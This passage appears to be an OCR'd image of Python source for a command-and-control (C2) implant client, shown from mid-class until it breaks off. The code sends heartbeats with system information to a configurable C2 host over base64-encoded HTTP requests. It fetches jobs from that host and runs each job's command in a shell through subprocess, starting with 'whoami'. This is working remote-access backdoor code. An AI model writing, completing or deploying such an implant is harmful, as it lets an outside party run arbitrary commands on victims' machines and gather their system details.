 ```python
        self.log_file = self.log_dir / f'{host}.log'
        self.port = port
        self.host = host

        try:
            self.log = json.loads(self.log_file.read_text())
        except FileNotFoundError:
            self.log = {'heartbeats': [], 'jobs': [{'job_id': 0, 'cmd': 'whoami'}]}
            self.save_log()

    def encode_message(self, message):
        return base64.b64encode(message.encode('utf-8')).decode('utf-8')

    def decode_message(self, message):
        return base64.b64decode(message).decode('utf-8')
    
    def save_log(self):
        self.log_file.write_text(json.dumps(self.log))

    def send_c2_message(self, endpoint, message):
        try:
            message = self.encode_message(json.dumps(message))
            r = requests.get(f'http://{self.host}:{self.port}/{endpoint}/{message}')

            return r.text
        except requests.exceptions.ConnectionError:
            raise ConnectionError('Could not connect to C2')

    def send_heartbeat(self):
        heartbeat = {
            'time': datetime.now().isoformat(),
            'systeminfo': systeminfo(),
            'latest_job': self.log['jobs'][-1] if len(self.log['jobs']) > 0 else None,
            'success': False
        }

        try:
            self.send_c2_message('heartbeat', heartbeat)

            heartbeat['success'] = True
            self.log['heartbeats'].append(heartbeat)
        except ConnectionError:
            self.log['heartbeats'].append(heartbeat)
            print('Could not send heartbeat')

    def execute_cmd(self, command):
        try:
            p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE)
            output, err = p.communicate()
            return output.decode('utf-8')
        except Exception as e:
            print(e)
            return False

    def get_job(self, job_id='latest'):
        try:
            job = self.send_c2_message('get-job', job_id)
            job = json.loads(self.decode_message(job))
            self.log['jobs'].append(job)

            if 'cmd' in job:
                job['success'] = True
                job['result'] = self.execute_cmd(job['cmd'])
```